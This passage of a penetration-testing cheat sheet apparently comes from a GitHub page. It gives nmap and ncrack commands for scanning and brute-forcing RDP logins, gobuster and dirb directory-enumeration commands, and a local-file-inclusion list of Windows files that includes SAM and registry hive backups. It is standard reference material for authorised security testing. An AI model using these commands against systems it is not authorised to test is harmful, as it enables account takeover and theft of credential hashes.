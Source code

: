 ### RDP/3389
Enumeration: `nmap -A --script=vuln -p3389 --script="rdp*" -v`
Bruteforce: `ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP`

### Check file extensions:

ASP Classic: `asp`\
ASP.NET: `aspx,axd,asx,asmx,ashx`\
All IIS: `asax,ascx,ashx,asmx,aspx,axd,browser,cd,compile,config,cs,vb,csproj,vbproj,disco,vsdisco,dsdgm,dsprototype,dll,licx,webinfo,master,mdb,ldb,mdf,msgx,svc,resrouce,resx,sdm,sdmDocument,sitemap,skin,sln,soap,asa,imDitto,cdx,cer,idc,shtm,shtm,stm,css,htm,html`\
CSS: `css`\
Coldfusion: `cfm`\
Erlang: `yaws`\
Flash: `swf`\
HTML: `html,htm,xhtml,jhtml`\
Java/Tomcat: `jsp,jspx,wss,do,action`\
JavaScript: `js`\
Perl: `pl`\
`PHP,php,php4,php3,phtml`\
Python: `py`\
Ruby: `rb,rhtml`\
SSI: `shtml`\
XML: `xml, rss, svg`\
Other (C, perl etc.): `cgi, dll`\
Random: `txt, bak, un~`

### Check http response codes: 200,204,301,302,307,403

#### HTTP directory enumeration:
GoBuster Directory enumeration: `gobuster -u $IP -w $wordlist -e -s 200,204,301,302,307,403,500`\
GoBuster Directory Appened forward-slash enumeration: `gobuster -u $IP -w wordlist.txt -l -e -s 200,204,301,302,307,403,500 -t 30`\
GoBuster File ext (-x) enumeration: `gobuster -u $IP -x PHP -w wordlist.txt -l -e -s 200,204,301,302,307,403,500 -t 30`\
GoBuster options: `-t add slashes, -l length, -e extended URL, -s codes, -t threads`\
Dirb through a proxy: `dirb [http://$ip/](http://172.16.0.19/) -p $ip:3129`

### LFI Windows:
`
C:\windows\win.ini
C:\windows\system.ini
C:\windows\iis.log
C:\windows\windowsupdate.log
C:\windows\system32\drivers\etc\hosts
C:\windows\system32\config\system
C:\windows\debug\netsetup.log
C:\windows\debug\sammui.log
C:\windows\debug\netlogon.log
C:\windows\debug\passwd.log
C:\windows\system32\winevt\logs\application.evtx
C:\windows\system32\winevt\logs\system.evtx
C:\windows\system32\winevt\logs\Windows PowerShell.evtx
C:\windows\system32\winevt\logs\Microsoft-Windows-PowerShell%4Operational.evtx
C:\windows\system32\winevt\logs\Microsoft-Windows-PowerShell%4Admin.evtx
C:\windows\system32\winevt\logs\Windows PowerShell.evtx
C:\windows\MpCmdRun.log
C:\windows\NetSetup.LOG
C:\windows\repair\sam
C:\windows\System32\config\RegBack\SAM
C:\windows\repair\system
C:\windows\repair\software
C:\windows\repair\security